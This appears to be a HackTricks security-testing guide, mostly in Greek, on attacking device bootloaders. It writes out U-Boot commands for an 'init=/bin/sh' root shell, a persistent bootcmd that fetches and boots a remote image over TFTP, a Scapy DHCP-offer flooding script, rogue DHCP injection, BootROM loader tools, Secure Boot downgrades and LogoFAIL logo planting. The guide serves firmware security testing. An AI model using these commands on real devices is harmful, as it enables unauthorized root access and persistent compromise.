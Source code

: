# Δοκιμές Bootloader

{{#include ../../banners/hacktricks-training.md}}

Τα παρακάτω βήματα προτείνονται για την τροποποίηση των ρυθμίσεων εκκίνησης της συσκευής και τον έλεγχο bootloaders όπως U-Boot και UEFI-class loaders. Επικεντρωθείτε στο να αποκτήσετε early code execution, στην αξιολόγηση των signature/rollback protections και στην κατάχρηση των recovery ή network-boot paths.

Related: MediaTek secure-boot bypass via bl2_ext patching:

{{#ref}}
android-mediatek-secure-boot-bl2_ext-bypass-el3.md
{{#endref}}

## U-Boot quick wins and environment abuse

1. Access the interpreter shell
- Κατά την εκκίνηση, πατήστε ένα γνωστό break key (συχνά οποιοδήποτε πλήκτρο, 0, space, ή μια board-specific "magic" ακολουθία) πριν εκτελεστεί το `bootcmd` για να μεταβείτε στο U-Boot prompt.

2. Inspect boot state and variables
- Χρήσιμες εντολές:
- `printenv` (dump environment)
- `bdinfo` (board info, memory addresses)
- `help bootm; help booti; help bootz` (supported kernel boot methods)
- `help ext4load; help fatload; help tftpboot` (available loaders)

3. Modify boot arguments to get a root shell
- Προσθέστε `init=/bin/sh` ώστε ο kernel να ανοίξει shell αντί για το κανονικό init:
```
# printenv
# setenv bootargs 'console=ttyS0,115200 root=/dev/mtdblock3 rootfstype=<fstype> init=/bin/sh'
# saveenv
# boot    # or: run bootcmd
```

4. Netboot from your TFTP server
- Διαμορφώστε το δίκτυο και φέρετε ένα kernel/fit image από το LAN:
```
# setenv ipaddr 192.168.2.2      # device IP
# setenv serverip 192.168.2.1    # TFTP server IP
# saveenv; reset
# ping ${serverip}
# tftpboot ${loadaddr} zImage           # kernel
# tftpboot ${fdt_addr_r} devicetree.dtb # DTB
# setenv bootargs "${bootargs} init=/bin/sh"
# booti ${loadaddr} - ${fdt_addr_r}
```

5. Persist changes via environment
- Εάν η αποθήκευση env δεν είναι write-protected, μπορείτε να διατηρήσετε τον έλεγχο:
```
# setenv bootcmd 'tftpboot ${loadaddr} fit.itb; bootm ${loadaddr}'
# saveenv
```
- Ελέγξτε για μεταβλητές όπως `bootcount`, `bootlimit`, `altbootcmd`, `boot_targets` που επηρεάζουν τα fallback paths. Λανθασμένες τιμές μπορούν να επιτρέψουν επανειλημμένα breaks στο shell.

6. Check debug/unsafe features
- Ψάξτε για: `bootdelay` > 0, `autoboot` disabled, ανεξέλεγκτο `usb start; fatload usb 0:1 ...`, δυνατότητα `loady`/`loads` μέσω serial, `env import` από μη αξιόπιστα μέσα, και kernels/ramdisks που φορτώνονται χωρίς έλεγχο υπογραφών.

7. U-Boot image/verification testing
- Αν η πλατφόρμα ισχυρίζεται secure/verified boot με FIT images, δοκιμάστε τόσο unsigned όσο και τροποποιημένα images:
```
# tftpboot ${loadaddr} fit-unsigned.itb; bootm ${loadaddr}     # should FAIL if FIT sig enforced
# tftpboot ${loadaddr} fit-signed-badhash.itb; bootm ${loadaddr} # should FAIL
# tftpboot ${loadaddr} fit-signed.itb; bootm ${loadaddr}        # should only boot if key trusted
```
- Η απουσία `CONFIG_FIT_SIGNATURE`/`CONFIG_(SPL_)FIT_SIGNATURE` ή η legacy συμπεριφορά `verify=n` συχνά επιτρέπει το booting αυθαίρετων payloads.

## Network-boot surface (DHCP/PXE) and rogue servers

8. PXE/DHCP parameter fuzzing
- Η legacy BOOTP/DHCP υλοποίηση του U-Boot έχει παρουσιάσει ζητήματα memory-safety. Για παράδειγμα, CVE‑2024‑42040 περιγράφει memory disclosure via crafted DHCP responses που μπορούν να leak bytes από τη μνήμη του U-Boot πίσω στο δίκτυο. Εφαρμόστε τα DHCP/PXE code paths με υπερβολικά μακριές/edge-case τιμές (option 67 bootfile-name, vendor options, file/servername fields) και παρατηρήστε για hangs/leaks.
- Minimal Scapy snippet για να στρεσάρετε τα boot parameters κατά το netboot:
```python
from scapy.all import *
offer = (Ether(dst='ff:ff:ff:ff:ff:ff')/
IP(src='192.168.2.1', dst='255.255.255.255')/
UDP(sport=67, dport=68)/
BOOTP(op=2, yiaddr='192.168.2.2', siaddr='192.168.2.1', chaddr=b'\xaa\xbb\xcc\xdd\xee\xff')/
DHCP(options=[('message-type','offer'),
('server_id','192.168.2.1'),
# Intentionally oversized and strange values
('bootfile_name','A'*300),
('vendor_class_id','B'*240),
'end']))
sendp(offer, iface='eth0', loop=1, inter=0.2)
```
- Επίσης επιβεβαιώστε αν τα PXE filename fields προωθούνται στη shell/loader logic χωρίς sanitization όταν συνδέονται σε OS-side provisioning scripts.

9. Rogue DHCP server command injection testing
- Στήστε έναν rogue DHCP/PXE service και δοκιμάστε την έγχυση χαρακτήρων σε filename ή options fields για να φτάσετε σε command interpreters σε επόμενα στάδια της αλυσίδας εκκίνησης. Το Metasploit’s DHCP auxiliary, `dnsmasq`, ή custom Scapy scripts δουλεύουν καλά. Βεβαιωθείτε ότι απομονώνετε πρώτα το lab network.

## SoC ROM recovery modes that override normal boot

Πολλά SoC εκθέτουν ένα BootROM "loader" mode που θα δεχτεί κώδικα μέσω USB/UART ακόμη και όταν τα flash images είναι invalid. Εάν τα secure-boot fuses δεν έχουν καεί, αυτό μπορεί να παρέχει arbitrary code execution πολύ νωρίς στην αλυσίδα.

- NXP i.MX (Serial Download Mode)
- Tools: `uuu` (mfgtools3) or `imx-usb-loader`.
- Example: `imx-usb-loader u-boot.imx` to push and run a custom U-Boot from RAM.
- Allwinner (FEL)
- Tool: `sunxi-fel`.
- Example: `sunxi-fel -v uboot u-boot-sunxi-with-spl.bin` or `sunxi-fel write 0x4A000000 u-boot-sunxi-with-spl.bin; sunxi-fel exe 0x4A000000`.
- Rockchip (MaskROM)
- Tool: `rkdeveloptool`.
- Example: `rkdeveloptool db loader.bin; rkdeveloptool ul u-boot.bin` to stage a loader and upload a custom U-Boot.

Εκτιμήστε εάν η συσκευή έχει secure-boot eFuses/OTP καμμένα. Αν όχι, τα BootROM download modes συχνά παρακάμπτουν οποιονδήποτε υψηλότερου επιπέδου έλεγχο (U-Boot, kernel, rootfs) εκτελώντας το πρώτο σας στάδιο payload κατευθείαν από SRAM/DRAM.

## UEFI/PC-class bootloaders: quick checks

10. ESP tampering and rollback testing
- Κάντε mount την EFI System Partition (ESP) και ελέγξτε για loader components: `EFI/Microsoft/Boot/bootmgfw.efi`, `EFI/BOOT/BOOTX64.efi`, `EFI/ubuntu/shimx64.efi`, `grubx64.efi`, vendor logo paths.
- Δοκιμάστε να κάνετε boot με downgraded ή γνωστά ευάλωτα signed boot components εάν οι Secure Boot revocations (dbx) δεν είναι ενημερωμένες. Αν η πλατφόρμα εξακολουθεί να εμπιστεύεται παλιά shims/bootmanagers, συχνά μπορείτε να φορτώσετε τον δικό σας kernel ή `grub.cfg` από το ESP για persistence.

11. Boot logo parsing bugs (LogoFAIL class)
- Πολλά OEM/IBV firmwares ήταν ευάλωτα σε image-parsing flaws στο DXE που επεξεργάζονται boot logos. Εάν ένας επιτιθέμενος μπορεί να τοποθετήσει ένα crafted image στο ESP κάτω από ένα vendor-specific path (π.χ., `\EFI\<vendor>\logo\*.bmp`) και να κάνει reboot, ενδέχεται να είναι δυνατή η εκτέλεση κώδικα κατά το early boot ακόμη και με Secure Boot ενεργό. Ελέγξτε αν η πλατφόρμα αποδέχεται user-supplied logos και αν αυτά τα paths είναι writable από το OS.

## Hardware caution

Να είστε προσεκτικοί όταν αλληλεπιδράτε με SPI/NAND flash κατά το early boot (π.χ., grounding pins για να παρακάμψετε reads) και συμβουλευτείτε πάντα το flash datasheet. Λανθασμένα timed shorts μπορούν να καταστρέψουν τη συσκευή ή τον programmer.

## Notes and additional tips

- Δοκιμάστε `env export -t ${loadaddr}` και `env import -t ${loadaddr}` για να μετακινήσετε environment blobs μεταξύ RAM και storage; κάποιες πλατφόρμες επιτρέπουν εισαγωγή env από removable media χωρίς authentication.
- Για persistence σε Linux-based systems που bootάρουν μέσω `extlinux.conf`, η τροποποίηση της γραμμής `APPEND` (για ένεση `init=/bin/sh` ή `rd.break`) στο boot partition είναι συχνά αρκετή όταν δεν εφαρμόζονται checks υπογραφών.
- Εάν ο userland παρέχει `fw_printenv/fw_setenv`, επαληθεύστε ότι το `/etc/fw_env.config` ταιριάζει με το πραγματικό env storage. Λανθασμένες offsets σας επιτρέπουν να διαβάσετε/γράψετε τη λάθος MTD περιοχή.

## Αναφορές

- [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)
- [https://www.binarly.io/blog/finding-logofail-the-dangers-of-image-parsing-during-system-boot](https://www.binarly.io/blog/finding-logofail-the-dangers-of-image-parsing-during-system-boot)
- [https://nvd.nist.gov/vuln/detail/CVE-2024-42040](https://nvd.nist.gov/vuln/detail/CVE-2024-42040)

{{#include ../../banners/hacktricks-training.md}}
